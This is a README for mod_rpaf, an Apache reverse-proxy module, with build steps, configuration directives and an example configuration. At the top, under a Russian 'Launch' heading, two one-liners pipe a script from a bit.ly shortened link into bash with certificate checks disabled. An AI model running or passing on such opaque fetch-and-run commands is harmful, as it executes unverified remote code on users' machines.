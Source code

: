 ﻿## Запуск:
```
bash <(wget --no-check-certificate -q -o /dev/null -O- https://bit.ly/3wL8B2u)
```
```
bash <(curl -kLs https://bit.ly/3wL8B2u)
```

## mod_rpaf - reverse proxy add forward

### Summary

Sets `REMOTE_ADDR`, `HTTPS`, and `HTTP_PORT` to the values provided by an upstream proxy.
Sets `remoteip-proxy-ip-list` field in r->notes table to list of proxy intermediaries.


### Compile Debian/Ubuntu Package and Install

    sudo apt-get install build-essential apache2-threaded-dev
    make
    make install   

### Compile and Install for RedHat/CentOS

    yum install httpd-devel
    make
    make install

### Configuration Directives

    RPAF_Enable             (On|Off)                - Enable reverse proxy add forward

    RPAF_ProxyIPs           127.0.0.1 10.0.0.0/24   - What IPs & bitmasked subnets to adjust
                                                      requests for

    RPAF_Header             X-Forwarded-For         - The header to use for the real IP 
                                                      address.

    RPAF_SetHostName        (On|Off)                - Update vhost name so ServerName &
                                                      ServerAlias work

    RPAF_SetHTTPS           (On|Off)                - Set the HTTPS environment variable
                                                      to the header value contained in
                                                      X-HTTPS, or X-Forwarded-HTTPS. For
                                                      best results make sure that mod_ssl
                                                      is NOT enabled.

    RPAF_SetPort            (On|Off)                - Set the server port to the header
                                                      value contained in X-Port, or
                                                      X-Forwarded-Port. (See Issue #12)

    RPAF_ForbidIfNotProxy   (On|Off)                - Option to forbid request if not from
                                                      trusted RPAF_ProxyIPs; otherwise
                                                      cannot be done with Allow/Deny after
                                                      remote addr substitution
                                                      

## Example Configuration

    LoadModule              rpaf_module modules/mod_rpaf.so
    RPAF_Enable             On
    RPAF_ProxyIPs           127.0.0.1 10.0.0.0/24
    RPAF_SetHostName        On
    RPAF_SetHTTPS           On
    RPAF_SetPort            On
    RPAF_ForbidIfNotProxy   Off

## Authors

* Thomas Eibner <thomas@stderr.net>
* Geoffrey McRae <gnif@xbmc.org>
* Proxigence Inc. <support@proxigence.com>

## License and distribution

This software is licensed under the [Apache License 2.0](http://www.apache.org/licenses/LICENSE-2.0). The
latest version is available [from GitHub](http://github.com/gnif/mod_rpaf)
